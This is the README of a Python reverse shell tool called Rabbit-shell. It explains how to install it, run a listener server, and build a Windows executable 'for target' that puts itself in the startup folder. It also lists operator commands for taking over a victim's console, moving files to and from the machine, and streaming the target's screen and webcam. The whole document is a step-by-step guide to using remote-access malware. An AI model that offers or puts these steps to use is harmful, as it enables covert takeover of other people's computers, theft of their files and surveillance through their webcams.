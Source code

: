 ![license](https://img.shields.io/github/license/greedalbadi/rabbit-shell)
![Python](https://img.shields.io/badge/Python-3.9-blue)
# Rabbit-shell

###### Rabbit shell advanced reverse shell tool.

![tool](https://i.postimg.cc/kXjvMvy3/Capture.png)


##  Installation.



### By pip.

```bash
pip install rabbit_shell
```
install using pypi.

or
###  By clone.

```bash
git clone https://github.com/greedalbadi/rabbit-shell.git
cd rabbit-shell
pip install .
```
install using git clone.



## steps.

> 1 - Install rabbit-shell tool.
>
> 2 - Generate your key using `--key` command.
>
> example: `rsb --key`
>
> 3 - run tool on your server using `--server` command along with your server **ip address** and **port** .
>
> example: `rsb --server -a 192.168.0.111 -p 9999`
>
> 4 - Generate exe for target using `--client` along with your server **ip address** and **port** .
>
> example: `rsb --client -a 192.168.0.111 -p 9999`
>
> 5 - now to start controlling target on your main device prefferred on windows run `--auth` command.
>
> example: `rsb --auth -a 192.168.0.111 -p 9999`
>
> - now when your target run your exe will it will be connected and you will can control your target.






# Usage.
```bash
rsb --help
```
print available arguments with a tiny explain or just rsb.

## Run server and start listening.

```bash
rsb --server -a 192.168.0.111 -p 9999
```

> - --server is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to
###### There'll be a seperate socket for file transfering the port is whaever enter - 1, If main server port 9999

###### file transfer port well be 9998, the files are going to trans to wherever your location is.





## Log to server as author.

```bash
rsb --auth -a 192.168.0.111 -p 9999
```

> - --auth is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to server and contacts
> - -k (optional) use key
###### connect to your server as an author and control your own clients.



## Generate exe for the target.

```bash
rsb --client -a 192.168.0.111 -p 9999
```

> - --client is args container
> - -a is server or device ip address
> - -p is wich port you'll be listening to

###### This will generate an exe inside a dist directory you may delete build folder, when the exe runs It'll create

###### a shortcut in startup folder if the system is windows.



## Generate new key\insert key\show key.

```bash
rsb --key
```

###### generate a new key and save it in data\basic.py.





## Commands to use from server side.



### To request server information.

```bash
>: server
```

###### Server host and port also the tool version and tool name.

### To list all clients.

```bash
>: list
```

###### List online and offline clients use, device address, and more.

### To set and controll a client console by client use number from the list.

```
>: set 0
```

###### To controle client console you can git client set number from using the command list

###### and use the command >: set (client use number).

### Quit client session.

```bash
>: quit
```

###### Quit client console without losing connection with client, used to things like changing to another set or gain info.

### Send file to client.

```bash
>: file:filename
```

###### 

### Request file from client.
```bash
>: reqfile:filename
```
# stream



##### streaming will be done by wich client is sending frames to the server

##### so make sure that it's one client whom send's stream frames and stop other streams to be safe, after you'r done with the stream stop it using `>: stream:stop` .

### stream current client screen.

```bash
>: stream:screen
```



### stream current client webcam.

```bash
>: stream:cam
```



### stop stream

```bash
>: stream:stop
```

###### make sure you stop the stream when you want to start streaming another client.







## About.

by [@greedalbadi](https://www.instagram.com/greedalbadi/)

This tool uses MIT license.

made with depression <3
